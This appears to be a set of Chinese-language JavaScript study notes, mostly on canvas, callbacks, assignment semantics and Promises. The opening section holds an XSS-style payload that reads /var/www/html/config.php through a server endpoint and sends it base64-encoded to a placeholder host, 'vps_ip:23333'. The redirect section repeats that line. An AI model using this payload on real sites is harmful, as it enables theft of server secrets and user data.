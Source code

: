 # javascript

## 访问网页

### XMLHttpRequest

```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
```



#### 带着cookie访问

`XMLHttpRequest.withCredentials=true;`



### fetch





## 重定向

` document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);`



## 手册

 https://developer.mozilla.org/ 

 https://www.w3schools.com/ 



## 循环

```javascript
var img = new SimpleImage(200, 200);
for(var pixel of img.values())
{//pixel是img.values()的引用
    pixel.setRed(255);
    pixel.setGreen(255);
    pixel.setBlue(0);
}
print(img);
```





## canvas操作

```javascript
var canvas=document.getElementById("show2");
var context = canvas.getContext('2d');
#init
context.clearRect(0, 0, canvas.width, canvas.height);
#clear canvas
context.font = "30px Arial";
context.fillText("Hello World", 10, 50);
#draw a text


context.fillStyle = "red";
context.fillRect(10, 10, 150, 80);
#draw rectangle
```



## 变量赋值(注意点)

当变量是数字和字符串的时候,会生成一个拷贝,再赋值给目标

但如果对象是数组和对象时,这会将引用赋值给目标,此时修改新变量也会影响到旧变量



## 向 无参callback function 传参

```javascript
function createCallback(x, m) {
    return function() {
        /* Do whatever */
    };
}
xhttp.onreadystatechange = (function(x, m) {
    return function() {
        /* Do stuff */
    }
})(xhttp, msg);
```





## 在浏览器导入npm的包



## Promise

```javascript
(new Promise(function(resolve,reject)){if(success){resolve()}reject()})
 	.then(data=>{})
 	.catch(error=>{})
```

我们使用 Promise( ) 构造函数返回了一个新的promise对象，构造函数接收一个回调函数作为参数。这个回调函数包含两个参数，第一个为成功执行(resolve)的回调函数，第二个为执行失败(reject)的回调函数。我们将这两个回调函数在对应的时机执行